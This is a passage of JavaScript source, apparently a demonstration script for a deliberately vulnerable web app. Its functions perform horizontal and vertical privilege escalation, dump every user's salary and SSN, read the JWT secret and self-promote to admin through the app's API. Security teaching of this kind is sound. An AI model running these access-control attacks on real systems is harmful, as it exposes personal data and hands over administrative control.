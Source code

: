 ```javascript
      });
      
      const modifiedUser = await api.getUserById(targetId);
      console.log(`✅ Usuario modificado exitosamente: ${modifiedUser.profile?.fullName}`);
      
    } catch (error) {
      console.log(`❌ Error en escalada horizontal: ${error.message}`);
    }
  },
  
  async demonstrateVerticalEscalation() {
    console.log("\n⬆️ 3. DEMOSTRANDO ESCALADA VERTICAL");
    console.log("───────────────────────────────────────────────────────────────");
    
    const currentUser = api.decodeCurrentToken();
    console.log(`👤 Intentando acceso admin desde: ${currentUser?.username} (Rol: ${currentUser?.role})`);
    
    try {
      const allUsers = await api.getAllUsers();
      console.log(`✅ ¡ACCESO ADMINISTRATIVO EXITOSO! Obtenidos ${allUsers.length} usuarios:`);
      
      allUsers.forEach(user => {
        console.log(`   📋 ${user.username} (${user.role}) - $${user.profile?.salary} - SSN: ${user.profile?.ssn}`);
      });
      
    } catch (error) {
      console.log(`❌ Error en escalada vertical: ${error.message}`);
    }
  },
  
  async demonstrateDataExposure() {
    console.log("\n🔓 4. DEMOSTRANDO EXPOSICIÓN DE DATOS SENSIBLES");
    console.log("───────────────────────────────────────────────────────────────");
    
    try {
      const systemInfo = await api.getSystemInfo();
      console.log("✅ ¡INFORMACIÓN CRÍTICA DEL SISTEMA OBTENIDA!");
      console.log(`   🔑 JWT Secret: ${systemInfo.secret_key}`);
      console.log(`   🖥️ Servidor: ${systemInfo.server}`);
      console.log(`   👥 Admin users: ${systemInfo.admin_users?.join(', ')}`);
      console.log(`   🐛 Debug mode: ${systemInfo.debug_mode}`);
      
    } catch (error) {
      console.log(`❌ Error obteniendo system info: ${error.message}`);
    }
  },
  
  async demonstrateRoleManipulation() {
    console.log("\n👑 5. DEMOSTRANDO MANIPULACIÓN DE ROLES");
    console.log("───────────────────────────────────────────────────────────────");
    
    const currentUser = api.decodeCurrentToken();
    
    if (currentUser?.role !== 'admin') {
      try {
        console.log(`🚀 Intentando auto-promoción a admin para: ${currentUser?.username}`);
        await api.updateUserRole(currentUser.id, 'admin');
        console.log("✅ ¡AUTO-PROMOCIÓN EXITOSA! Recarga la página para usar privilegios de admin.");
        
      } catch (error) {
```